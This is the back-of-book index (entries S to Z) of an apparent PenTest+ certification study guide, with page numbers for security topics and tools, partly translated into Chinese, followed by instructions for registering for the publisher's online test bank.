21, 130–131

## security information and event management (SIEM) systems
164

## security misconfigurations
as a top security risk, 339

## security posture
94

## security risks
338–339

## security search engines
- about, 74
- Censys, 75–76
- Shodan, 75

## Self‐Assessment Questionnaire (SAQ)
33–34

## sensitive data
- enumeration and, 200
- as a top security risk, 339

## Server Message Block (SMB)
217–219, 261

## servers
- enumeration and, 93–94
- vulnerabilities of, 166–175

## server‐side request forgery (SSRF)
335

## service‐level agreements (SLAs)
47, 142

## services
- about, 229
- degradations, as a barrier to vulnerability scanning, 141–142
- identifying, 79–85
- identifying and attacking targets, 262
- identifying and exploiting common, 261–269

## session attacks
322–326

## session fixation attacks
322–323

## session hijacking
322

## set group ID (GUID)
361–362

## set user ID (SETUID/SUID)
228, 361–362

## shares
enumeration and, 92

## shells
- escaping and upgrading limited, 227–228
- restricted, 363

## Shodan
20, 64, 75

## short message service (SMS) phishing
297

## shoulder surfing
296

## shove keys
292

## side‐channel attacks
382–383

## Simple Mail Transfer Protocol (SMTP) exploits
264

## Simple Network Management Protocol (SNMP) exploits
263–264

## Simple Object Access Protocol (SOAP)
338

## SMBMap
92

## SNMP sweeps
88

## Snow
24

## Social Engineer Toolkit (SET)
21

## social engineering
- about, 226–227, 294
- in‐person, 294–297
- phishing attacks, 297–298
- tools for, 21–22, 298–302
- website‐based attacks, 298

## Social Engineering Framework
294

## Social Engineering Toolkit (SET)
299

## social networking sites
91

## software assurance
313

## software development kits (SDKs)
384

## software security testing
- about, 131
- analyzing and testing code, 131–133
- web application vulnerability scanning, 133–138

## software testing tools
22–23

## SonarQube
342

## Sonic Visualiser
341

## source code
- analysis of (*See* static code analysis)
- components of, 335–336
- repositories for, 78

## spamming
on mobile devices, 385

## spear phishing
297

## specialized systems
- about, 359, 393–394
- attacking data storage, 392–393
- attacking embedded systems, 389–392
- attacking ICS, 389–392
- attacking Internet of Things (IoT), 389–392
- attacking mobile devices, 384389
- attacking SCADA devices, 389–392
- exam essentials, 395–396
- lab exercises, 396–399
- review questions, 400–403, 503–505

## Spectre
172

## spoofing attacks
270

## SpoofTooph
23, 274

## SQL injection attacks
- about, 316
- Boolean blind, 317–318
- reporting and communication, 416
- timing‐based blind, 318–319

## Sqlmap
138

## SQLqlmap
21

## standards
44–46

## statement of work (SOW)
46, 121

## static application security testing (SAST)
341–342

## static code analysis
132

## steganography
24, 230, 340–341

## Steghide
24, 341

## stored/persistent XSS
332–334

## stress testing
255–256, 269

## string operators
- about, 445–446
- Bash, 446–447
- JavaScript, 451–452
- Perl, 450–451
- PowerShell, 447–448
- Python, 449–450
- in Ruby, 448–449

## substitutions
438–439

## `sudo` command
362–363

## Sullenberger, Chesley “Sully,”
14

## supervisory control and data acquisition (SCADA) systems
183, 389–392

## support resources
for penetration testing, 42–44

## system ports
79–80

## T

## tailgating
290–291

## Tamper Data
137, 342

## Target
413–414

## targets
- choosing, 198–199
- finding, 270

## technical contact
409

## technical controls
411

## THC‐Hydra
224, 268

## theHarvester
20, 74, 90, 91

## third party hosted targets
39

## third‐party authorization
47–48


## T

* `third‐party hosted assets`, 96–97

* `threat hunting`, 6

* `ticket granting ticket (TGT)`, 326–327

* `time‐of‐check‐to‐time‐of‐use (TOCTTOU)`, 337

* `timing‐based blind SQL injection attacks`, 318–319

* `TinEye`, 24, 341

* `tokens`, 枚举和, 95–96

* `toolkits`, 用于漏洞利用, 206–213

* `tools`. 另请参阅特定工具

    * `cloud`, 25

    * `in CompTIA penetration testing process`, 13

    * `credential testing`, 22

    * `debuggers`, 22–23

    * `exploitation`, 24

    * `network testing`, 23

    * `for penetration testing`, 17–25

    * `for Reconnaissance phase`, 20

    * `remote access`, 23–24

    * `social engineering`, 21–22, 298–302

    * `software testing`, 22–23

    * `steganography`, 24

    * `vulnerability scanners`, 21

* `traceroute`, 73

* `Transmission Control Protocol (TCP)`, 125

* `Transport Layer Security (TLS)`

    * 关于, 71–72

    * 存在的问题, 176–178

    * 在线检查工具, 324–325

* `trees`, 475

* `trend analysis`, 164–165

* `triggers`, 通信, 410

* `Trojans`, 229–230

* `TruffleHog`, 23, 222

## U

* `UltraVNC`, 367–368

* `unencrypted files`, 枚举和, 201

* `Unix shell`, 432

* `unknown environment tests`, 36, 99

* `unvalidated redirects`, 326

* `URLs`, 枚举和, 93–94

* `USB drop attacks`, 296–297

* `use of insecure storage`, 385

* `user interaction metric`, 157

* `users`

    * 枚举和, 90–92, 199–200

    * 新用户, 230–231

## V

* `validated redirect`, 326

* `validating vulnerability scan results`, 162–165

* `variables`, 438–440

* `versions`, 识别, 81

* `vertical escalation attacks`, 226

* `video surveillance`, 294

* `virtual guests`, 漏洞, 182

* `virtual host patching`, 182

* `virtual local area networks (VLANs)`, 221–222

* `virtual machines (VMs)`

    * 攻击, 374–377

    * 逃逸漏洞, 182

* `Virtual Network Computing (VNC)`, 220

* `virtual networks`, 漏洞, 183

* `virtual private networks (VPNs)`, 漏洞, 180

* `VirtualBox`, 205

* `virtualization`

    * 与容器相比, 375

    * 漏洞, 181–183

* `vishing`, 297

* `visualization`, 容器安全和, 126

* `VLAN hopping`, 221–222, 247–249

* `VMware`, 205

* `VulDB`, 205

* `vulnerabilities`. 另请参阅特定类型

* `vulnerability scanning`

    * 关于, 111–112, 143, 152, 186–187

    * 主动 vs. 被动, 120

    * 障碍, 141–143

    * 常见漏洞, 165–186

    * 在 CompTIA 渗透测试流程中, 11–12

    * 配置和执行, 121–131

    * 数据库, 138

    * 确定频率, 118–120

    * 开发修复工作流程, 138–141

    * 考试要点, 143–144, 187–188

    * 识别目标, 117–118

    * 安装扫描器, 144

    * 解读报告, 152–162, 186

    * 实验练习, 144–145, 188–189

    * 维护和, 129–130

    * 真实世界场景, 111–112, 152

    * 要求, 112–120

    * 复习问题, 146–149, 190–193, 491–494

    * 运行, 145

    * 扫描器, 21

    * 敏感度级别, 122–125

    * 软件安全测试, 131–138

    * 验证结果, 162–165

    * Web 应用程序, 133–138

## W

* `W3AF`, 21, 372

* `W3C standards`, 42

* `Wapiti`, 21

* `watering hole attacks`, 298

* `Weaponization phase`, 网络杀伤链, 16

* `web application firewalls (WAFs)`, 315–316

* `web application vulnerabilities`

    * 关于, 184–186, 331

    * 点击劫持, 335

    * 跨站脚本 (XSS), 331–334

    * 请求伪造, 334–335

    * 漏洞扫描, 133–138

* `web crawling`, 93

* `web links`, 93

* `web pages`, 枚举和, 93–94

* `web scraping`, 93

* `web shell`, 331

* `website‐based attacks`, 298

* `well‐known ports`, 79–80

* `whaling`, 297

* `while` 循环

    * 关于, 465

    * Bash, 465–467

    * 识别语言, 470

    * JavaScript, 469

    * Perl, 469

    * PowerShell, 467

    * Python, 468–469

    * Ruby, 467–468

* `white box tests`, 35–36

* `WHOIS`, 20, 68–70

* `Wi‐Fi Protected Setup (WPS)`, 273

* `WiFite`, 23, 276

* `WinDbg`, 22, 345

* `Windows kernel`, 367

* `Windows Management Instrumentation (WMI)`, 214–215

* `Windows Remote Desktop Protocol (RDP)`, 220

* `Windows Remote Management (WinRM)`, 214

* `Windows systems`

    * 攻击, 365–367

    * 漏洞利用, 257–261

* `wireless exploits`

    * 关于, 269

    * 攻击方法, 269–270


* `captive portals`, 270–271

* `eavesdropping`, 271–275

* `evil twins`, 271–275

* `finding targets`, 270

* `jamming`, 277

* `on‐path attacks`, 271–275

* `repeating`, 277–278

* `RFID cloning`, 276–277

* `security tools`, 275–276

* `Wireless Geographic Logging Engine (WiGLE)`, 23

* `wireless networks`, 74

* `wireless testing`, 281

* `Wireshark`, 23, 87

* `wordlists`, 371–372

* `WPScan`, 136

* `X`

* `XML External Entities`, as a top security risk, 339

* `XML‐based standards`, 42

* `Y`

* `Yet Another Source Code Analyzer (YASCA)`, 342

* `Z`

* `Zed Attack Proxy (ZAP)`, 342–343, 348

* `Zenmap`, 84

* `zero knowledge tests`, 36, 99

* `zone transfers (AXFR)`, 72

* `ZoomEye.org`, 76

* `Z‐Shave attack`, 272

WileyPRE


# 在线题库

注册并激活后，即可免费一年访问在线互动题库，帮助您备考 CompTIA PenTest+ 认证考试（随书附赠！本书中的所有章节复习题和练习测试均已包含在在线题库中，您可以在限时评分环境下进行练习。

## 注册并访问在线题库

要注册您的书籍并获取在线题库访问权限，请执行以下步骤：

1. 访问 [`www.wiley.com/go/sybextestprep`](http://www.wiley.com/go/sybextestprep)（该地址区分大小写）！

2. 从列表中选择您的书籍。

3. 完成所需的注册信息，包括回答安全验证以证明书籍所有权。您将收到一封包含 PIN 码的电子邮件。

4. 按照电子邮件中的说明操作，或访问 [`www.wiley.com/go/sybextestprep`](http://www.wiley.com/go/sybextestprep)。

5. 在该页面上找到您的书籍，并点击其旁边的“注册或登录”链接。然后输入您收到的 PIN 码，点击“激活 PIN”按钮。

6. 在创建账户或登录页面，输入您的用户名和密码，点击登录；如果您还没有账户，请创建一个新账户。

7. 此时，您应该已进入题库网站，新题库将显示在页面顶部。如果您没有看到，请刷新页面或退出登录后重新登录。


# WILEY 最终用户许可协议

访问 [`www.wiley.com/go/eula`](http://www.wiley.com/go/eula) 以获取 Wiley 的电子书 EULA。

